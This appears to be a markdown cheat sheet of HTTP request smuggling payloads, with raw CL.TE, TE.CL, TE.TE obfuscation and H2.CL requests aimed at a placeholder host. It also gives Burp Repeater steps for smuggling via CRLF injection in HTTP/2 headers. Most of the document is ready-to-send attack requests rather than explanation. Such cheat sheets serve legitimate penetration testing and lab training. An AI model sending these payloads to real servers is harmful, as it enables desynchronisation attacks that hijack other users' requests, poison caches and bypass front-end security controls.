 # Request Smuggling

## Finding CL.TE vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Transfer-Encoding: chunked

a
b
```

## Finding TE.CL vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100
Transfer-Encoding: chunked

0

x
```

## CL.TE vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

## TE.CL vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-length: 4
Transfer-Encoding: chunked

2b
GPOST / HTTP/1.1
Content-Length: 15

x=1
0
\n\r
\n\r
```

## TE.TE behavior: obfuscating the TE header
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## H2.CL vulnerabilities
```
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

## HTTP/2 request smuggling via CRLF injection
1. Send the most recent POST / request to Burp Repeater and remove your session cookie before resending the request.
2. Expand the Inspector's Request Attributes section and change the protocol to HTTP/2.
3. Using the Inspector, add an arbitrary header to the request. Append the sequence \r\n to the header's value, followed by the Transfer-Encoding: chunked header:

__Name__
```
foo
```
__Value__
```
bar\r\n
Transfer-Encoding: chunked
```

4. In the body, attempt to smuggle an arbitrary prefix as follows:
```
0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
